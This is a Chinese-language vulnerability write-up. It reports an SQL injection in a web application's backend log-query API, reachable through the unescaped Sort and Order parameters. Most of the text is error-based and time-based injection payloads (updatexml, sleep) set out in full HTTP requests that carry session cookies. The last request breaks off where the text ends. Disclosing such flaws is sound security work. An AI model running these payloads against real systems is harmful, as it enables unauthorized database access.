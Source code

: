 【后台】查询日志接口存在SQL注入
-----------------

权限：后台普通用户权限

### 漏洞利用

使用任意账号登录都能请求 `http://localhost:50852/api/Logs`接口  
此接口的`Sort`和`Order`没有使用Linq进行转义导致注入漏洞的产生。  
**基于报错注入：**  
`http://localhost:50852/api/Logs?OperateTimeEnd=&OperateTimeStart=2023-05-06&limit=1&offset=0&operateType=&order=concat(0x7e,database(),0x7e),3)&sort=updatexml(1,`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-d74f201e37340255657042fb4795563e294ba6ce.png)

请求包：

```python
GET /api/Logs?OperateTimeEnd=&OperateTimeStart=2023-05-06&limit=1&offset=0&operateType=&order=concat(0x7e,database(),0x7e),3)&sort=updatexml(1, HTTP/1.1
Host: localhost:50852
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: .AspNetCore.Antiforgery.a2HlFfgw_P8=CfDJ8Gs8oXs1rxRKjEnWjDIDxNYIk8qTrVAchQMdNQDsqE0fBboelKrRDrSlcNGeSNFI1jNSivWc5b5t8tkI1SES8xumGS6HdMyCcTFdEqocP7y74P26iG_iKW6RRYrazzhQNkcvDfYzcxAzdbm-f5FqO88; .AspNetCore.Cookies=CfDJ8Gs8oXs1rxRKjEnWjDIDxNaE3CXKRjutQdTU9MI2xO1nRk7yd-9PgK41JPtnvxNoybJwZclKPosGkyWisjmmpaB2xJkLw04jWnB1ZpvrHYBNhbm02wR62IXpOdYVnmBRgSs7UrKRDnk-fAR9CRWNiYrLr5Dq9irg-R7uxSbuwu1A-eKvcQUsLvd_nvlRmExl_ay-3wo0v1rvUe1pwpbhyzzda5HLQbh0XOMmor5h0q66o9vFYO5dgBUGqYxpBidWCv0PoKzqGQeA_8dxsBolEctWPrQEKakod3mJ1HrIKQR1
Connection: close

```

**基于时间注入：**

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-2ab5c38531f78f6d330286a63e57c8d4a8cae029.png)

请求包：

```python
GET /api/Logs?OperateTimeEnd=&OperateTimeStart=2023-05-06&limit=1&offset=0&operateType=&order=sleep(10))&sort=if(1=2,1, HTTP/1.1
Host: localhost:50852
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
```